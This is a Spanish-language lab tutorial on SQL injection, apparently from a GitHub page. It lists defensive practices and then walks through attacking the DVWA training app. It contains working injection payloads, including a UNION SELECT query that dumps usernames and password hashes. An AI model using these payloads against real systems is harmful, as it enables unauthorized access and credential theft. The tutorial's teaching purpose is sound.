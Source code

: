 ✅ Escapar caracteres especiales

✅ Validar el tipo y contenido de los inputs

✅ No mostrar errores de SQL en producción

✅ Uso de ORM (Eloquent, Sequelize, etc.)

---

### 🎯 Ejemplo Completo Paso a Paso

#### Entorno:

- DVWA
- Modo: Low

#### Paso 1: URL vulnerable

```
http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit
```

#### Paso 2: Detectar vulnerabilidad

Agrega `'` al final:

```
?id=1'
```

➡️ Error SQL = vulnerable ✅

---

#### Paso 3: Ver columnas disponibles

```
?id=-1 UNION SELECT 1,2--
```

➡️ Aparecen `1` y `2`, entonces puedes usar esas posiciones.

---

#### Paso 4: Ver usuarios

```
?id=-1 UNION SELECT user, password FROM users--
```

➡️ Verás todos los usuarios y sus hashes de contraseña.

---

### 🛠️ Herramientas recomendadas para practicar

- **Burp Suite** → Para interceptar y modificar solicitudes
- **sqlmap** → Para automatizar
- **DVWA** y **bWAPP** → Entornos vulnerables
- **TryHackMe** / **Hack The Box** → Laboratorios prácticos

---